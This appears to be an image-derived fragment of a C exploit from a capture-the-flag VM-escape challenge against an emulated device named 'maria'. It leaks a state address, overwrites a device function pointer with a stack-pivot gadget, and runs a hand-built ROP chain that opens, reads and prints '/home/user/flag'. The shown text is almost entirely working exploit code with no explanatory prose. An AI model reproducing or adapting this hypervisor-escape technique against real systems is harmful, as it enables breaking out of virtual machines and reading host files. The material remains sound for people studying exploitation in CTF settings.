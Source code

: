 ```c  
       mariastate = *(unsigned long long *)(buff+(0x2000-0xf0)+0x20);  
       printf("[*] MariaState address = %p\n", (void *)mariastate);

	// gadget to pivot on rax (which contains maria->opaque  
	uint64_t gadget = progbase + 0x0000000000b1088a; /* push rax ; pop rsp ; mov eax, 1 ; pop rbp ; ret */  
	uint64_t pop_rdi = progbase + 0x0000000000632c5d; /* pop rdi ; ret */  
	uint64_t pop_rsi = progbase + 0x00000000004d4db3; /* pop rsi ; ret */  
	uint64_t pop_rdx = progbase + 0x000000000047f5c8; /* pop rdx ; ret */  
	uint64_t pop_rax = progbase + 0x00000000003643a4; /* pop rax ; ret */  
	uint64_t syscall = progbase + 0x00000000004a22ec; /* syscall; add cl, cl; ret; */  
	uint64_t xchg_edi_eax = progbase + 0x00000000003584d5; /* xchg edi, eax ; ret */  
	uint64_t xchg_edx_eax = progbase + 0x0000000000309c8a; /* xchg edx, eax ; ret */

   uint64_t *rop = (buff+(0x2000-0xf0)-0x700);  
   *(unsigned long long *)(buff+(0x2000-0xf0)+0x48) =  ((mariastate+0x2a30)-0x800);	// replace maria->mmio by our gadget  
   *(unsigned long long *)(buff+(0x2000-0xf0)+0x50) =  ((mariastate+0x2a30)-0x700);	// place to put our ROP  
   *(unsigned long long *)(buff+(0x2000-0xf0)-0x800) = gadget;  
   *(unsigned long long *)(buff+(0x2000-0xf0)-0x7f8) = gadget;

	strcpy(buff+(0x2000-0xf0)-0x500, "/home/user/flag");  
	/*-------------------------------------  our ROP, in majesty... */  
	/* open("/home/user/flag", O_RDONLY) */  
	*rop++ = 0xdeadbeef;  
	*rop++ = pop_rdi;  
	*rop++ = ((mariastate+0x2a30)-0x500);   
	*rop++ = pop_rsi;  
	*rop++ = 0;  
	*rop++ = pop_rax;  
	*rop++ = 2;  
	*rop++ = syscall;  
	/* read file */  
	*rop++ = xchg_edi_eax;  
	*rop++ = pop_rsi;  
	*rop++ = ((mariastate+0x2a30)-0x400);  
	*rop++ = pop_rdx;  
	*rop++ = 0x100;  
	*rop++ = pop_rax;  
	*rop++ = 0;  
	*rop++ = syscall;  
	/* write content to stdout */  
	*rop++ = xchg_edx_eax;  
	*rop++ = pop_rdi;  
	*rop++ = 1;  
	*rop++ = pop_rax;  
	*rop++ = 1;  
	*rop++ = syscall;  
	/* exit */  
	*rop++ = pop_rax;  
	*rop++ = 60;  
	*rop++ = syscall;

	set_buff();  
	set_off(0);

   munmap(mmio_mem, PAGE_SIZE*4);  
   close(mmio_fd);  
}  
```
